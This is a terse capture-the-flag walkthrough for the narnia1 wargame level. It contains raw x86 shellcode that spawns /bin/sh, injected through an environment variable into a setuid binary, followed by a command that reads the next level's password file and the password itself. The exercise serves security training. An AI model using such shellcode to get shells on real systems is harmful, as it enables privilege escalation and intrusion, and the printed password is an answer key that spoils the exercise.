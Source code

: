 tried/failed:
http://shell-storm.org/shellcode/files/shellcode-827.php
worked:
http://shell-storm.org/shellcode/files/shellcode-811.php

cd /narnia
cat narnia1.c
export EGG=$(echo -ne "\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x90\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x89\xc1\x89\xc2\xb0\x0b\xcd\x80\x31\xc0\x40\xcd\x80")
./narnia1
whoami
narnia2
cat /etc/narnia_pass/narnia2
nairiepecu
